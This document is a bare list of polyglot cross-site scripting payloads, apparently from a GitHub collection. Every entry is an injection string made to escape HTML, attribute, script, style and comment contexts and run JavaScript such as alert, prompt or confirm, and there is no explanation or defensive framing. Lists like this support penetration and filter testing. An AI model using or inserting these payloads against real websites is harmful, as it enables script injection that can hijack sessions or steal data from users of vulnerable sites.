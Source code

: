 ## Polyglot XSS

Polyglot XSS

```
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0D%0A//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e
```
```
">><marquee><img src=x onerror=confirm(1)></marquee>" >
```
```
</plaintext\></|\><plaintext/onmouseover=prompt(1) >
```
```
<script>prompt(1)</script>@gmail.com<isindex formaction=javascript:alert(/XSS/) type=submit>'-->" ></script>
```
```
<script>alert(1)</script>"><img/id="confirm&lpar; 1)"/alt="/"src="/"onerror=eval(id&%23x29;>'"><img src="http: //i.imgur.com/P8mL8.jpg">
```
```
" onclick=alert(1)//<button ‘ onclick=alert(1)//> */ alert(1)//
```
```
';alert(String.fromCharCode(88,83,83))//';alert(String. fromCharCode(88,83,83))//";alert(String.fromCharCode (88,83,83))//";alert(String.fromCharCode(88,83,83))//-- ></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83)) </SCRIPT>
```
```
';alert(String.fromCharCode(88,83,83))//';alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//--></SCRIPT>">'>
```
```
<SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>
```
```
“ onclick=alert(1)//<button ‘ onclick=alert(1)//> */ alert(1)//
```
```
'">><marquee><img src=x onerror=confirm(1)></marquee>">
```
```
</plaintext\></|\><plaintext/onmouseover=prompt(1)>
```
```
<script>prompt(1)</script>@gmail.com<isindex formaction=javascript:alert(/XSS/) type=submit>'-->"></script>
```
```
<script>alert(1)</script>">
```
```
<img/id="confirm&lpar;1)"/alt="/"src="/"onerror=eval(id&%23x29;>'">
```
```
<img src="http://i.imgur.com/P8mL8.jpg">
```
```
javascript://'/</title></style></textarea></script>--><p" 
onclick=alert()//>*/alert()/*
```
```
javascript://--></script></title></style>"/</textarea>*/<alert()/*' onclick=alert()//>a
```
```
javascript://</title>"/</script></style></textarea/-->*/<alert()/*' onclick=alert()//>/
```
```
javascript://</title></style></textarea>--></script><a"//' onclick=alert()//>*/alert()/*
```